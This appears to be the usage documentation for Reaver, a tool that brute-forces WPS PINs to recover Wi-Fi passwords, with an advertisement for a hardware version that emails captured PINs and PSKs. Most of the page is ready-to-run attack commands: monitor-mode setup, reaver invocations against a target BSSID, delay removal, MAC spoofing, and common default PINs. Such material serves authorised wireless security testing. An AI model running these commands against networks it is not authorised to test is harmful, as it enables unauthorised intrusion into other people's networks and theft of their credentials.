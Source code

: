 ## Reaver Pro Hardware ##

Reaver Pro is a compact embedded device customized for Reaver attacks. No more driver compatibility issues. Plug Reaver Pro into your Windows, OS X, or Linux machine and It just works!

Reaver Pro Features:
  * New easy to use GUI
  * Optimized PIN sequencing using Markov Chains based on on PINs from hundreds of actual WPS-enabled devices
  * Automatically connect to the target and send the PIN and PSK to an email address you specify

**[Buy the NEW Reaver Pro. Now shipping WORLDWIDE!!!](http://www.reaversystems.com)**

## Prerequisites for Open Source Reaver ##

  1. You must be running Linux
  1. You must have a wireless card capable of raw injection
  1. You must put your wireless card into monitor mode. This is most easily done using airmon-ng from the aircrack-ng tool suite.

## Basic Usage ##

First, make sure your wireless card is in monitor mode:

```
# airmon-ng start wlan0
```

To run Reaver, you must specify the BSSID of the target AP and the name of the monitor mode interface (usually 'mon0', **not** 'wlan0', although this will vary based on your wireless card/drivers):

```
# reaver -i mon0 -b 00:01:02:03:04:05
```

You will probably also want to use -vv to get verbose info about Reaver's progress:

```
# reaver -i mon0 -b 00:01:02:03:04:05 -vv
```

## Speeding Up the Attack ##

By default, Reaver has a 1 second delay between pin attempts. You can disable this delay by adding '-d 0' on the command line, but some APs may not like it:

```
# reaver -i mon0 -b 00:01:02:03:04:05 -vv -d 0
```

Another option that can speed up an attack is --dh-small. This option instructs Reaver to use small diffie-hellman secret numbers in order to reduce the computational load on the target AP:

```
# reaver -i mon0 -b 00:01:02:03:04:05 -vv --dh-small
```

## MAC Spoofing ##

In some cases you may want/need to spoof your MAC address. Reaver supports MAC spoofing with the --mac option, but you must ensure that you have spoofed your MAC correctly in order for it to work.

Changing the MAC address of the virtual monitor mode interface (typically named mon0) WILL NOT WORK. **You must change the MAC address of your wireless card's physical interface**. For example:

```
# ifconfig wlan0 down
# ifconfig wlan0 hw ether 00:BA:AD:BE:EF:69
# ifconfig wlan0 up
# airmon-ng start wlan0
# reaver -i mon0 -b 00:01:02:03:04:05 -vv --mac=00:BA:AD:BE:EF:69
```

## Default Pins ##

It has been reported that some models/vendors/ISPs all come configured with a default pin. Common pins are 12345670, 00005678, 01230000, etc. Reaver attempts known default pins first.

## Errors and Warnings ##

It is not uncommon to get a few errors or warnings during the attack, usually related to receive timeouts or out of order WPS messages. You may even get these warnings for a few minutes until the pin count starts incrementing again.

However, if your pin count does not increment at all, or increments only occasionally with lots of errors/warnings, answer the following:

  1. Does the target AP support WPS and is WPS enabled?
  1. Did you put your wireless card into monitor mode?
  1. Did you specify the monitor mode interface with the -i option?
  1. Do you have a good signal from the AP?

If you still have problems, you can see if your problem is already listed in the project issue tracker. If not, create a new issue, and be sure to include:

  1. Linux distro, distro version, and architecture (32 bit or 64bit?)
  1. Wireless card and driver
  1. Pcap file demonstrating the issue, if possible